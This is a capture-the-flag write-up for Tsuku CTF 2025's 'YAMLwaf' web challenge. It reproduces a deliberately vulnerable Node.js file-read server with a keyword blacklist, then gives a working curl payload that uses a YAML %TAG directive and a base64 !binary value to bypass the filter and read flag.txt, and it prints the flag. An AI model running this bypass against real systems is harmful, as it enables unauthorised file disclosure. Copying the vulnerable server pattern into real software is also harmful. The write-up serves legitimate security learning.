 ```yaml
---
name: YAMLwaf (2025)
event: Tsuku CTF 2025
category: Web
description: Writeup for YAMLwaf (Web) - Tsuku CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# YAMLwaf

[![](https://img.youtube.com/vi/qGd4d0zmhy8/0.jpg)](https://www.youtube.com/watch?v=qGd4d0zmhy8?t=508 "YAMLwaf (Tsuku CTF)")

## Description

> YAML is awesome!!

## Solution

### Source code

The challenge comes with source code, `server.js` is most relevant.

{% code overflow="wrap" %}
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const path = require("path");
const yaml = require("js-yaml");
const app = express();
app.use(bodyParser.text());

app.post("/", (req, res) => {
    try {
        if (req.body.includes("flag")) {
            return res.status(403).send("Not allowed!");
        }
        if (req.body.includes("\\") || req.body.includes("/") || req.body.includes("!!") || req.body.includes("<")) {
            return res.status(403).send("Hello, Hacker :)");
        }
        const data = yaml.load(req.body);
        const filePath = data.file;

        if (filePath && fs.existsSync(filePath)) {
            const content = fs.readFileSync(filePath, "utf8");
            return res.send(content);
        } else {
            return res.status(404).send("File not found");
        }
    } catch (err) {
        return res.status(400).send("Invalid request");
    }
});

app.listen(3000, () => {
    console.log("Server listening on port 3000");
});
```
{% endcode %}

### Breaking it down

The app processes POST requests, parses YAML from the request body, and attempts to read a file specified in the YAML content.

WAF checks if:

-   `'flag'` is in the raw request body → 403.
-   `'/'`, `'\\'`, `'!!'`, or `'<'` are present → 403.
    If checks pass, it tries to access `data.file`.

| Filter        | Purpose                     | Bypass Possibility                 |
| ------------- | --------------------------- | ---------------------------------- |
| `'flag'`      | Blocks direct keyword usage | Use Unicode, split string, etc.    |
| `'/'`, `'\\'` | Blocks path traversal       | Use symlinks or local files        |
| `'!!'`, `'<'` | Blocks YAML tag injection   | No known bypass with these blocked |

### YAML Injection

The challenge description already gave a sample curl command.

{% code overflow="wrap" %}
```bash
curl -X POST "http://challs.tsukuctf.org:50001" -H "Content-Type: text/plain" -d "file: flag.txt"

Not allowed!
```
{% endcode %}

Imagine if it gave the flag 😆 It doesn't since "flag" is a blocked keyword.

I tried a lot of suggestions from ChatGPT; unicode chars, splitting the flag into variables, adding newlines etc. Nothing worked and it kept going in circles.

I checked this [guide](https://book.jorianwoltjer.com/languages/yaml#javascript-js-yaml-less-than-4.0) from J0r1an but we can't use the `<` character, and it specifies versions < 4.0, while this challenge uses the latest version of `js-yaml` (`^4.1.0`).

I searched through previous CTF writeups but wasn't getting anywhere. Eventually, I swapped the ChatGPT model from `o4` to `o3` and found a working solution.

{% code overflow="wrap" %}
```bash
curl -X POST "http://challs.tsukuctf.org:50001" -H "Content-Type: text/plain" --data-binary $'%TAG !b! tag:yaml.org,2002:\n---\nfile: !b!binary "ZmxhZy50eHQ="'

TsukuCTF25{YAML_1s_d33p!}
```
{% endcode %}

Here's the logic behind the payload:

| Stage                     | What happens                                                                                                                                                                            | Why the blacklist is bypassed                                                                                    |
| ------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| **1. YAML directive**     | `%TAG !b! tag:yaml.org,2002:` declares a **handle** `!b!`. Any tag that starts with `!b!` is expanded to `tag:yaml.org,2002:`.                                                          | Directive text contains none of the blocked substrings.                                                          |
| **2. Binary tag**         | `!b!binary` therefore becomes the official core tag `tag:yaml.org,2002:binary` (`!binary`).                                                                                             | Only a single `!` is used → no `!!`. No `<` or `/`.                                                              |
| **3. Base‑64 value**      | `"ZmxhZy50eHQ="` is base‑64 for the ASCII bytes `flag.txt`.                                                                                                                             | The four ASCII letters **f l a g** never appear in the raw request, so `req.body.includes("flag")` is **false**. |
| **4. `js‑yaml` decoding** | With the **default (safe) schema**, `!binary` is still recognised. `js‑yaml` converts it to a Node `Buffer` containing the bytes `flag.txt`.                                            | No dangerous function tags are involved, so the payload is accepted.                                             |
| **5. File read**          | The application later executes `fs.existsSync(filePath)` and `fs.readFileSync(filePath,'utf8')`. Both `fs` calls accept either a string _or a Buffer_ as the path, so the Buffer works. | From this point onward the blacklist is already satisfied and no further checks occur.                           |
| **6. Response**           | The server reads the real **`flag.txt`** from disk and returns its contents in the HTTP response.                                                                                       | Mission accomplished.                                                                                            |

Flag: `TsukuCTF25{YAML_1s_d33p!}`
